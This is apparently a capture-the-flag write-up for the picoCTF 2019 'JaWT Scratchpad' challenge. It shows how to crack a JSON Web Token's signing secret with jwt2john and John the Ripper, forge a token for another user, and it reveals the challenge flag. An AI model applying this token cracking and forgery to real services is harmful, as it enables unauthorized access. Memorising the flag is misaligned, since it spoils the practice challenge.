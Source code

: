 ![title](images/title.png)

JWT is a JSON Web Token that can be disected using base64. Its comprised of 3 parts

HEADER - PAYLOAD - VERIFY SIGNATURE.

The signature can be bruteforced with john the ripper if we're lucky so lets give that a shot.


**ppython3 jwt2john.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCJ9.IAu_YSHppFe8hXH_BSPb4OLJYGUi8wXqXdS0T33cKbA > jwt.txt**



**john jwt.txt --wordlist=~/rockyou.txt**

```
~/ctf_writeups/pico2019/web/JaWT_scratchpad# john jwt.txt --show
?:ilovepico

1 password hash cracked, 0 left
```

Navigate to https://jwt.io/ and put in the token changing the user and secret key fields then use burpe to submit and get our flag

<details>
	<summary>Flag</summary>

picoCTF{jawt_was_just_what_you_thought_c84a0d3754338763548dfc2dc171cdd0
</details>

